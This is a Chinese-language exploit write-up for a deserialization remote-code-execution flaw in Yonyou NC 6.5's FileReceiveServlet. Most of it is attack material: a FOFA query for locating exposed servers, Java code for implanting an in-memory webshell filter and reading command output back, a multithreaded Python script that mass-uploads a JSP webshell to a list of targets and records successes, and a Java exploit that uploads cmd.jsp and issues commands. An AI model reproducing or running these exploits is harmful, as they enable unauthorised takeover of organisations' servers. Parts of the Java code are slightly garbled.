


# 用友 NC FileReceiveServlet 反序列化RCE漏洞

## 漏洞描述

用友NC 存在反序列化 RCE漏洞，攻击者可利用控制服务器

## 漏洞影响

```
用友NC 6.5
```

## FOFA

```
app="用友-UFIDA-NC"
```

## 漏洞复现

首先从任意文件上传说起

任意文件上传分析代码在`servlet.FileReceiveServlet`。在这里我们可以看到，从请求中读取流，然后转换为map类型并读取上传文件的路径。然后再读取待上传的文件。



而网上很多poc，大多都是基于此漏洞，利用反序列化上传一个文件到服务器。

这也就是去年的那个任意文件上传的反序列化漏洞。但是，但是，这个漏洞本质是一个反序列化漏洞。而且某C的classpath中，也存在apache commonscollections库，我们可以利用这个库，直接执行命令或者内存马。岂不是比任意文件上传舒服多了。

**内存马**

老样子，在反序列化中想执行任意代码，一般都依靠xalan这个库。这次也不例外。

植入内存马，关键在于我们怎样找到context，只有找到context，我们才可以添加filter。好在某c中，我们只需要通过下面的代码既可以获取当前context，不需要从tomcat中获取context

```java
 Object obj = 改动Locator.getInstance().lookup("ServletContext");
        Field contextField = obj.getClass().getDeclaredField("context");
        contextField.setAccessible(true);
        obj = contextField.get(obj);
        Field contextField1 = obj.getClass().getDeclaredField("context");
        contextField1.setAccessible(true);
        addFitlertoTomcat(contextField1.get(obj));
```

剩下的就是常规操作，可以看我之前的内存马模型，基本不需要很大的改动即可完美适配。



**回显**

我们只需要找到这样一个servlet，即存在反序列化的readObject，又将错误信息写入到response中

不难看出 uploadServlet 就很满足这个需求。

```plain
out = new ObjectOutputStream(output);
            in = new ObjectInputStream(request.getInputStream());
            String dsName = (String)in.readObject();
            }
        } catch (Exception var14) {
            var14.printStackTrace();
            if (out == null) {
                throw new ServletException(var14);
            }

            out.writeObject(var14);
```

如果出错的话，将错误信息通过序列化写入到response中。好处在于，我们不需要麻烦的去找tomcat的response对象。

所以，我们将反序列化的payload，发送给uploadServlet即可。然后我们只需要读取响应，即可拿到服务器命令执行的回显结果。客户端代码可以这样写

```java
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(r));
        Exception e = (Exception) objectInputStream.readObject();
        Object obj = e.getCause();
        Field targetF = obj.getClass().getDeclaredField("target");
        targetF.setAccessible(true);
        obj = targetF.get(obj);
        Field msgF = obj.getClass().getSuperclass().getDeclaredField("detailMessage");
        msgF.setAccessible(true);
        String msg = msgF.get(obj).toString();
        System.out.println(msg);
```

### 文件上传EXP

python exp：

```
import requests
import threadpool
import urllib3
import sys
import argparse

urllib3.disable_warnings()
proxies = {'http': 'http://localhost:8080', 'https': 'http://localhost:8080'}
header = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded",
    "Referer": "https://google.com",
}

def multithreading(funcname, filename="url.txt", pools=5):
    works = []
    with open(filename, "r") as f:
        for i in f:
            func_params = [i.rstrip("\n")]
            works.append((func_params, None))
    pool = threadpool.ThreadPool(pools)
    reqs = threadpool.makeRequests(funcname, works)
    [pool.putRequest(req) for req in reqs]
    pool.wait()

def wirte_targets(vurl, filename):
    with open(filename, "a+") as f:
        f.write(vurl + "\n")
        return vurl
    
def exp(u):
    uploadHeader = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
        "Content-Type": "multipart/form-data;",
        "Referer": "https://google.com"
    }
    uploadData = "\xac\xed\x00\x05\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x02\x74\x00\x09\x46\x49\x4c\x45\x5f\x4e\x41\x4d\x45\x74\x00\x09\x74\x30\x30\x6c\x73\x2e\x6a\x73\x70\x74\x00\x10\x54\x41\x52\x47\x45\x54\x5f\x46\x49\x4c\x45\x5f\x50\x41\x54\x48\x74\x00\x10\x2e\x2f\x77\x65\x62\x61\x70\x70\x73\x2f\x6e\x63\x5f\x77\x65\x62\x78"
    shellFlag="t0test0ls"
    uploadData+=shellFlag
    try:
        req1 = requests.post(u + "/servlet/FileReceiveServlet", headers=uploadHeader, verify=False, data=uploadData, timeout=25)
        if req1.status_code == 200 :
            req3=requests.get(u+"/t00ls.jsp",headers=header, verify=False, timeout=25)

            if  req3.text.index(shellFlag)>=0:
                printFlag = "[Getshell]" + u+"/t00ls.jsp"  + "\n"
                print (printFlag)
                wirte_targets(printFlag, "vuln.txt")
    except :
        pass
    #print(printFlag, end="")


if __name__ == "__main__":
    if (len(sys.argv)) < 2:
        print('useage : python' +str(sys.argv[0]) + ' -h')
    else:
        parser =argparse.ArgumentParser()
        parser.description ='YONYOU UC 6.5 FILE UPLOAD!'
        parser.add_argument('-u',help="url -> example http://127.0.0.1",type=str,dest='check_url')
        parser.add_argument('-r',help="url list to file",type=str,dest='check_file')
        args =parser.parse_args()
        if args.check_url:
            exp(args.check_url)
        
        if(args.check_file):
            multithreading(exp, args.check_file, 8) 
```

java exp：

```
import java.io.*;
import java.util.HashMap;
import java.util.Map;

public class App {
    public static void main(String[] args) throws Exception {
        String url="http://192.168.40.222";
        Map<String, Object> metaInfo=new HashMap<String, Object>();
        metaInfo.put("TARGET_FILE_PATH","webapps/nc_web");
        metaInfo.put("FILE_NAME","cmd.jsp");
        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ObjectOutputStream oos=new ObjectOutputStream(baos);
        oos.writeObject(metaInfo);
        InputStream in=App.class.getResourceAsStream("cmd.jsp");
        byte[] buf=new byte[1024];
        int len=0;
        while ((len=in.read(buf))!=-1){
            baos.write(buf,0,len);
        }
        HttpClient.post(url+"/servlet/FileReceiveServlet",baos.toByteArray());
        HttpResult result=HttpClient.get(url+"/cmd.jsp?cmd=echo+aaaaaa");
        if(result.getData().contains("aaaaaa")){
            System.out.println("shell路径:"+url+"/cmd.jsp?cmd=whoami");
        }else{
            System.out.println("上传shell失败或者漏洞不存在");
        }
    }
}
```

## 参考文章

https://mp.weixin.qq.com/s/IdXYbjNVGVIasuwQH48Q1w